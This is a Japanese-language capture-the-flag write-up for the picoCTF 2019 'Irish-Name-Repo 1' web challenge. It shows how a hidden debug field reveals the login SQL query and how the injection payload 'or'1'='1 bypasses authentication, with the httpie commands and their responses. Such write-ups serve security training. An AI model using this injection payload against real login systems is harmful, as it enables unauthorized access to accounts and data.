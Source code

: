 # picoCTF 2019 web 300 Irish-Name-Repo 1

## Solution

問題ページが与えられる

<https://2019shell1.picoctf.com/problem/12273/>

左上のハンバーガーメニューから「Admin Login」ページへ飛ぶ

<https://2019shell1.picoctf.com/problem/12273/login.html>

ソースを見ると

```html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

username, password, debug が login.php へ POST されている。

debug を 1 にしてパスワードを送ってみる

```
http -f https://2019shell1.picoctf.com/problem/12273/login.php username=a password=b debug=1
```

```html
<pre>
username: a
password: b
SQL query: SELECT * FROM users WHERE name='a' AND password='b'
</pre>
<h1>Login failed.</h1>
```

この SQL 文だと「'or'1'='1」で true になる

```
http -f https://2019shell1.picoctf.com/problem/12273/login.php username=a password="'or'1'='1" debug=1
```

```html
<pre>
username: a
password: 'or'1'='1
SQL query: SELECT * FROM users WHERE name='a' AND password=''or'1'='1'
</pre>
<h1>Logged in!</h1>
<p>Your flag is: picoCTF{XXXXXXXXXXXXXXXXXXXXXX}</p>
```
